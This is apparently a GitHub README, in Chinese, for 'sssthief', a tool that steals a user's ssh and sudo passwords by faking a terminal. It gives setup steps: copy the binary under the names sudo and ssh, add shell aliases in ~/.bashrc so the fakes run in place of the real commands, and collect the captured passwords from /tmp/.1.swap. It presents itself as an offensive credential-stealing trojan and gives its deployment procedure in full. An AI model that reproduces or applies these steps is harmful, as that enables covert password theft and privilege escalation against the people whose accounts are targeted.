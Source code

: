 # sssthief

窃取当前用户的ssh，sudo密码

通过模拟一个终端劫持用户的输入输出以达到窃取密码的目的，目前仅支持中文与英文系统环境

cp test_linux_amd64 sudo

cp test_linux_amd64 ssh

~/.bashrc

alias sudo="程序路径/sudo"

alias ssh="程序路径/ssh"


密码保存到/tmp/.1.swap

ps:su窃取功能未完成
